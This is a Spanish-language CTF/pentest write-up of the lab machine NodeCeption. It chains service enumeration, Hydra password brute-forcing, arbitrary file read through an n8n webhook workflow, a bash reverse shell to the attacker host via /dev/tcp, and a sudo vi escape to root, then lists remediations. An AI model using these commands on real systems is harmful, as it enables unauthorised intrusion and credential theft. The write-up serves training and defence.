# NodeCeption - Write-up de Pentesting

> **Uso académico:** este documento describe una prueba de penetración realizada en un entorno controlado de laboratorio. No debe aplicarse sobre sistemas reales, redes de terceros o activos no autorizados.  
> **Versión pública:** los valores exactos de las banderas fueron omitidos para publicación en GitHub/SecNotes.

## 1. Resumen

La máquina **NodeCeption** fue comprometida siguiendo una metodología de pentesting estructurada. El proceso incluyó reconocimiento de red, escaneo de puertos, enumeración de servicios web, análisis de endpoints expuestos, explotación mediante abuso de una automatización en **n8n**, obtención de acceso inicial y escalada de privilegios local hasta root.

El vector principal se originó en la exposición de servicios web en puertos no estándar. La enumeración permitió identificar una instancia de **n8n** y un panel de autenticación alternativo en Apache. A partir de credenciales débiles y reutilizadas, se accedió al panel de n8n, donde un workflow mal configurado permitió lectura de archivos locales y posterior ejecución de comandos, generando una reverse shell. La escalada a root se logró mediante una regla sudo insegura asociada al binario `vi`.

## 2. Ficha técnica

| Elemento | Valor |
|---|---|
| Máquina evaluada | NodeCeption |
| Tipo de máquina | Laboratorio vulnerable |
| Sistema operativo objetivo | Ubuntu |
| Máquina atacante | Kali Linux |
| Plataforma | VirtualBox |
| Tipo de red | Adaptador puente |
| Red de laboratorio | `192.168.1.0/24` |
| IP atacante | `192.168.1.28` |
| IP objetivo | `192.168.1.27` |
| Modalidad | Caja negra |
| Objetivo | Obtener `user.txt` y `root.txt` |

## 3. Reconocimiento

Antes de iniciar el análisis del objetivo, se validó la configuración de red de la máquina atacante.

```bash
ip a
```


<p><strong>Figura 1.</strong> Confirmación de la dirección IP de la máquina atacante Kali Linux mediante el comando <code>ip a</code>.</p>

Salida relevante:

```text
Interfaz: eth0
IP atacante: 192.168.1.28
MAC: 08:00:27:5a:87:bc
```

Luego se realizó descubrimiento de hosts activos dentro del segmento local.

```bash
sudo netdiscover
sudo nmap -sn 192.168.1.0/24
sudo arp-scan -l
```


<p><strong>Figura 2.</strong> Confirmación de la dirección IP asignada a la máquina objetivo NodeCeption.</p>

Salida relevante:

```text
Host detectado: 192.168.1.27
MAC Address: 08:00:27:0f:c7:70
Vendor: Oracle VirtualBox virtual NIC
```

El host `192.168.1.27` fue identificado como la máquina objetivo **NodeCeption**. A partir de este punto, todos los escaneos y pruebas se realizaron contra esa dirección IP.

## 4. Escaneo

Se ejecutó un escaneo completo de puertos TCP para identificar servicios expuestos.

```bash
nmap -p- 192.168.1.27
```


<p><strong>Figura 3.</strong> Escaneo inicial de puertos TCP sobre NodeCeption mediante Nmap.</p>

Puertos identificados:

| Puerto | Estado | Servicio inicial | Observación |
|---|---|---|---|
| `22/tcp` | Abierto | SSH | Posible acceso remoto si se obtienen credenciales |
| `5678/tcp` | Abierto | HTTP no estándar | Servicio web principal a enumerar |
| `8765/tcp` | Abierto | HTTP / Apache | Servicio web secundario |

Posteriormente, se realizó detección de versiones y ejecución de scripts básicos de Nmap.

```bash
sudo nmap -sV -sC -A -O -p 22,5678,8765 192.168.1.27
```


<p><strong>Figura 4.</strong> Detección de servicios y versiones en los puertos identificados como abiertos.</p>

Salida relevante:

```text
22/tcp   open  ssh   OpenSSH 9.6p1 Ubuntu 3ubuntu13.12
5678/tcp open  rrac? Respuestas HTTP válidas
8765/tcp open  http  Apache httpd 2.4.58 (Ubuntu)
```

Interpretación:

- El puerto `22/tcp` corresponde a SSH y puede ser útil si se obtienen credenciales válidas.
- El puerto `5678/tcp` responde como aplicación web y expone rutas relacionadas con `/rest` y `/assets`.
- El puerto `8765/tcp` ejecuta Apache y muestra inicialmente la página por defecto de Ubuntu.

## 5. Enumeración

### 5.1 Enumeración HTTP del puerto 5678

Se consultó manualmente el servicio web del puerto `5678` usando `curl`.

```bash
curl -i http://192.168.1.27:5678
```

Salida relevante:

```text
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

window.BASE_PATH = '/';
window.REST_ENDPOINT = 'rest';
<script src="/rest/sentry.js"></script>
<title>n8n.io - Workflow Automation</title>
<script type="module" crossorigin src="/assets/index-B3p3789J.js"></script>
<link rel="stylesheet" crossorigin href="/assets/index-COleXxZf.css">
```


<p><strong>Figura 5.</strong> Enumeración inicial del servicio HTTP expuesto en el puerto 5678 mediante <code>curl</code>.</p>

El contenido HTML permitió identificar que el servicio corresponde a **n8n.io - Workflow Automation**. También se observó que la aplicación utiliza el endpoint REST bajo la ruta `/rest`.

### 5.2 Enumeración de endpoints REST

Se consultaron rutas internas del backend REST expuesto por n8n.

```bash
curl -i http://192.168.1.27:5678/rest/settings
curl -i http://192.168.1.27:5678/rest/login
curl -i http://192.168.1.27:5678/rest/sentry.js
```

Salida relevante:

```text
/rest/settings -> HTTP/1.1 200 OK
/rest/login    -> HTTP/1.1 401 Unauthorized
/rest/sentry.js -> HTTP/1.1 200 OK
```


<p><strong>Figura 6.</strong> Visualización del panel web de n8n expuesto en el puerto 5678.</p>

Datos técnicos obtenidos desde `/rest/settings` y `/rest/sentry.js`:

```text
databaseType: sqlite
nodeJsVersion: 20.19.0
versionCli: 1.102.4
releaseChannel: dev
urlBaseEditor: http://0.0.0.0:5678
authCookie.secure: false
userManagement.authenticationMethod: email
publicApi.enabled: true
publicApi.path: api
publicApi.swaggerUi.enabled: true
mfa.enabled: true
mfa.enforced: false
license.planName: Community
release: n8n@1.102.4
environment: development
```

Esta información confirmó exposición de configuración técnica sin autenticación. Aunque no entrega acceso directo, sí permite conocer versión, base de datos, estado de MFA, API pública y entorno de ejecución.

### 5.3 Enumeración web del puerto 8765

Se realizó búsqueda de rutas y archivos en el servicio Apache del puerto `8765`.

```bash
gobuster dir -u http://192.168.1.27:8765 \
  -w /usr/share/dirb/wordlists/common.txt \
  -x php,txt,bak,old,html \
  -o gobuster_8765.txt
```

```bash
wfuzz -u http://192.168.1.27:8765/FUZZ \
  -w /usr/share/dirb/wordlists/common.txt \
  --hc 404 -c
```


<p><strong>Figura 7.</strong> Enumeración de rutas y archivos mediante técnicas de fuzzing web.</p>

Recursos identificados:

| Ruta | Código | Interpretación |
|---|---:|---|
| `/index.html` | 200 | Página principal |
| `/login.php` | 200 | Panel de autenticación |
| `/server-status` | 403 | Recurso protegido |
| `/.htaccess` | 403 | Archivo protegido |
| `/.htpasswd` | 403 | Archivo protegido |

El hallazgo principal fue `/login.php`, que expone un formulario de autenticación adicional.

## 6. Análisis de vulnerabilidades

### 6.1 Comentario HTML con usuario y política de contraseña

Durante la inspección manual del código fuente, se identificó un comentario HTML con información sensible.

```html
<!-- usuario@maildelctf.com
Espero que hayas cambiado la contraseña como se te indicó.
Recuerda: mínimo 8 caracteres, al menos 1 número y 1 mayúscula.
-->
```


<p><strong>Figura 9.</strong> Inspección del código fuente de la página web del puerto 8765, identificando información útil para la autenticación.</p>

El comentario expone un posible usuario válido y una política de contraseña, lo que reduce el espacio de búsqueda para pruebas controladas de autenticación.

### 6.2 Validación de mensaje de error

Se probó una autenticación fallida para identificar el mensaje utilizado por el formulario.

```bash
curl -i -s -X POST http://192.168.1.27:8765/login.php \
  -d "email=usuario@maildelctf.com&password=Prueba123"
```

Resultado esperado:

```text
Credenciales incorrectas.
```

Este mensaje fue usado como condición de fallo para Hydra.

### 6.3 Ataque controlado contra el formulario

Con la información obtenida, se generó una lista filtrada desde `rockyou.txt` y se probó el formulario HTTP POST.

```bash
hydra -l usuario@maildelctf.com \
  -P rockyou_filtrado.txt \
  192.168.1.27 \
  http-post-form "/login.php:email=^USER^&password=^PASS^:F=Credenciales incorrectas." \
  -s 8765 -V
```


<p><strong>Figura 10.</strong> Prueba controlada de credenciales mediante Hydra contra el formulario de autenticación.</p>

Resultado relevante:

```text
[8765][http-post-form] host: 192.168.1.27 login: usuario@maildelctf.com password: [REDACTED]
```


<p><strong>Figura 11.</strong> Validación de credenciales correctas en el formulario <code>login.php</code> del puerto 8765.</p>

Las credenciales obtenidas permitieron iniciar sesión en `/login.php`. El panel indicó que las mismas credenciales podían reutilizarse en n8n, lo que evidencia una debilidad por reutilización de credenciales.

## 7. Explotación

### 7.1 Acceso al panel n8n

Con las credenciales válidas obtenidas desde el panel del puerto `8765`, se accedió al servicio n8n en el puerto `5678`.



<p><strong>Figura 12.</strong> Identificación de un workflow activo dentro del panel n8n.</p>

Dentro de n8n se observó un workflow activo llamado **My workflow**, compuesto por:

- Nodo **Webhook**.
- Nodo **Leer Archivo**.



<p><strong>Figura 13.</strong> Revisión del workflow compuesto por un nodo Webhook y un nodo de lectura de archivos.</p>

El nodo de lectura utilizaba una ruta dinámica basada en la entrada recibida por el webhook:

```text
{{$json.body.file}}
```

### 7.2 Lectura arbitraria de archivos locales

Se probó la lectura del archivo `/etc/passwd` enviando la ruta como parámetro al webhook.

```bash
curl -s -X POST http://192.168.1.27:5678/webhook-test/lfi-test \
  -H "Content-Type: application/json" \
  -d '{"file":"/etc/passwd"}'
```


<p><strong>Figura 14.</strong> Activación del workflow mediante una solicitud HTTP enviada con <code>curl</code>.</p>

El workflow leyó correctamente el archivo local, confirmando una vulnerabilidad de lectura arbitraria de archivos mediante automatización mal configurada.



<p><strong>Figura 15.</strong> Lectura del archivo <code>/etc/passwd</code> mediante abuso del nodo de lectura de archivos.</p>

## 8. Obtención de acceso inicial

Para obtener una shell remota, se agregó un nodo **Execute Command** dentro del workflow de n8n y se configuró una reverse shell hacia Kali.



<p><strong>Figura 16.</strong> Incorporación del nodo <code>Execute Command</code> para ejecutar comandos desde n8n.</p>

Comando configurado en n8n:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.28/4444 0>&1'
```

Listener en Kali:

```bash
nc -lvnp 4444
```

Resultado:

```text
Conexión recibida desde 192.168.1.27
whoami
thl
```


<p><strong>Figura 17.</strong> Configuración del comando Bash utilizado para generar una reverse shell hacia la máquina atacante.</p>

La sesión inicial se obtuvo como el usuario `thl`.



<p><strong>Figura 18.</strong> Recepción de la reverse shell en Kali Linux mediante Netcat.</p>

Se buscó la bandera de usuario:

```bash
find / -name user.txt 2>/dev/null
cat /home/thl/user.txt
```

Resultado:

```text
/home/thl/user.txt
[FLAG USER REDACTED]
```



<p><strong>Figura 19.</strong> Obtención de la bandera <code>user.txt</code> desde el usuario comprometido.</p>

## 9. Escalada de privilegios

Durante la enumeración local, se revisaron privilegios sudo.

```bash
sudo -l
```



<p><strong>Figura 21.</strong> Análisis del binario identificado como posible vector de escalada de privilegios.</p>

Se identificó que el usuario `thl` podía ejecutar el binario `vi` con privilegios elevados. Debido a que la reverse shell no tenía una TTY adecuada para ingresar contraseña de sudo, se validó acceso SSH con el usuario local.



<p><strong>Figura 22.</strong> Intento inicial de abuso del binario privilegiado desde una shell sin TTY interactiva.</p>

```bash
hydra -l thl -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.27 -t 4 -V
```



<p><strong>Figura 23.</strong> Identificación de credenciales válidas para SSH mediante una prueba controlada con Hydra.</p>

Resultado:

```text
[22][ssh] host: 192.168.1.27 login: thl password: [REDACTED]
```

Luego se inició sesión por SSH:

```bash
ssh thl@192.168.1.27
```



<p><strong>Figura 24.</strong> Ingreso por SSH, escalada de privilegios y obtención de la bandera <code>root.txt</code>.</p>

Con una TTY interactiva, se explotó el permiso sudo sobre `vi` usando una técnica documentada en GTFOBins.

```bash
sudo /usr/bin/vi -c ':!/bin/sh' /dev/null
```

Validación:

```bash
whoami
```

Resultado:

```text
root
```


<p><strong>Figura 24.</strong> Ingreso por SSH, escalada de privilegios y obtención de la bandera <code>root.txt</code>.</p>

Se localizó y leyó la bandera de root:

```bash
find / -name root.txt 2>/dev/null
cat /root/root.txt
```

Resultado:

```text
/root/root.txt
[FLAG ROOT REDACTED]
```

## 10. Banderas

| Bandera | Usuario / privilegio | Ruta | Valor |
|---|---|---|---|
| `user.txt` | `thl` | `/home/thl/user.txt` | `[REDACTED]` |
| `root.txt` | `root` | `/root/root.txt` | `[REDACTED]` |

## 11. Resumen de hallazgos

| ID | Hallazgo | Impacto | Severidad | Recomendación |
|---|---|---|---|---|
| H-01 | Exposición de configuración técnica de n8n mediante `/rest/settings` | Divulgación de versión, entorno, API pública y configuración | Media | Restringir endpoints sensibles y requerir autenticación |
| H-02 | Usuario y política de contraseña expuestos en comentario HTML | Facilita ataques dirigidos contra autenticación | Media | Eliminar comentarios sensibles del código publicado |
| H-03 | Credenciales débiles y reutilizadas entre panel web y n8n | Acceso no autorizado al panel administrativo | Alta | Aplicar contraseñas robustas, únicas y MFA obligatorio |
| H-04 | Workflow de n8n permite lectura arbitraria de archivos | Exposición de archivos locales del servidor | Alta | Validar entradas y restringir nodos peligrosos |
| H-05 | Ejecución de comandos desde n8n con usuario del sistema | Obtención de shell remota | Crítica | Limitar permisos del servicio y auditar workflows |
| H-06 | Regla sudo insegura sobre `/usr/bin/vi` | Escalada completa a root | Crítica | Aplicar principio de menor privilegio y revisar sudoers |

## 12. Conclusión

La resolución de NodeCeption permitió practicar una cadena completa de compromiso: identificación de servicios expuestos, enumeración web, descubrimiento de credenciales, acceso a una plataforma administrativa, abuso de workflows para ejecución de comandos y escalada local mediante sudo mal configurado.

Desde una perspectiva defensiva, los controles prioritarios serían restringir endpoints internos, eliminar comentarios sensibles, impedir reutilización de credenciales, auditar configuraciones de n8n y revisar permisos sudo otorgados a usuarios no privilegiados.
